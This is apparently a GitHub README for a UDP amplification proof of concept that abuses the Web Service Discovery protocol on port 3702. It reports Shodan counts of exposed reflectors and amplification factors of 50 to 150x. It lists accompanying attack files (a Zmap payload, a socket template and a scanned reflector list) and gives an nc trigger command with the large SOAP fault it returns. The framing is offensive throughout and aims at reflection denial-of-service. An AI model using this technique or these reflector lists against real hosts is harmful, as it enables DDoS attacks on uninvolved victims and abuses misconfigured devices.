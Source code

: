 # Web Service Discovery protocol amplification PoC (port 3702)

Yet another bloody UDP insecure service, this time similar to other abused SOAP protocols but needing no trigger payload.
Shodan showed 216,313 possible reflectors with the biggest number from Vietnam followed by United States.

I'm not Akamai so ill be waiting to see their report, but from what I can measure with overhead additions, the amps range from 50 to 150x.

I've scanned and filtered a list that will be alongside this script.

- WSD_3702.pkt - Zmap payload ("<\xaa>" or any WSD centric discovery payload will work)
- wsd.c - Standard socket template with my corrections
- wsd.list - Example amp list

Example: nc -u x.x.x.x 3702 < <(echo ':')
Output:
`<?xml version="1.0" encoding="UTF-8"?><SOAP-ENV:Fault xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsdd="http://schemas.xmlsoap.org/ws/2005/04/discovery" xmlns:chan="http://schemas.microsoft.com/ws/2005/02/duplex" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:tdn="http://www.onvif.org/ver10/network/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:trp="http://www.onvif.org/ver10/replay/wsdl" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl"><faultcode>SOAP-ENV:Client</faultcode><faultstring>No tag: no XML root element or missing SOAP message body element</faultstring></SOAP-ENV:Fault>`
